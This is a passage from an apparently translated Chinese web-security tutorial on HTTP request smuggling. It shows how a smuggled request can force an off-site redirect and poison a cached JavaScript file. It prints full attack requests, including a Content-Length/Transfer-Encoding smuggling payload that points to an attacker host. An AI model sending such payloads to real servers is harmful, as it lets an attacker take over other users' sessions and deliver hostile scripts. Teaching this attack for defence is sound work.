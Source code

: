 走私请求将会触发一个到攻击者站点的重定向，这将影响到后端服务处理的下一个用户的请求，例如：

<code>
    <span style="color:orange">
        GET /home HTTP/1.1<br>
        Host: attacker-website.com<br>
        Foo: X</span><span style="color:green">GET /scripts/include.js HTTP/1.1<br>
        Host: vulnerable-website.com<br>
    </span>
    <br>
        HTTP/1.1 301 Moved Permanently<br>
        Location: https://attacker-website.com/home/
</code>

此时，如果用户请求的是一个在 web 站点导入的 JavaScript 文件，那么攻击者可以通过在响应中返回自己的 JavaScript 来完全控制受害用户。


## 利用 HTTP 请求走私进行 web cache poisoning

上述攻击的一个变体就是利用 HTTP 请求走私去进行 web cache 投毒。如果前端基础架构中的任何部分使用 cache 缓存，那么可能使用站外重定向响应来破坏缓存。这种攻击的效果将会持续存在，随后对受污染的 URL 发起请求的所有用户都会中招。

在这种变体攻击中，攻击者发送以下内容到前端服务器：

<code>
    <span style="color:blue">
        POST / HTTP/1.1<br>
        Host: vulnerable-website.com<br>
        Content-Length: 59<br>
        Transfer-Encoding: chunked<br>
        <br>
        0<br>
    </span>
    <br>
    <span style="color:orange">
        GET /home HTTP/1.1<br>
        Host: attacker-website.com<br>
        Foo: X</span><span style="color:green">GET /static/include.js HTTP/1.1<br>
        Host: vulnerable-website.com
    </span>
</code>

后端服务器像之前一样进行站外重定向对走私请求进行响应。前端服务器认为是第二个请求的 URL 的响应，然后进行缓存：
```
/static/include.js:

GET /static/include.js HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/
```

从此刻开始，当其他用户请求此 URL 时，他们都会收到指向攻击者网站的重定向。
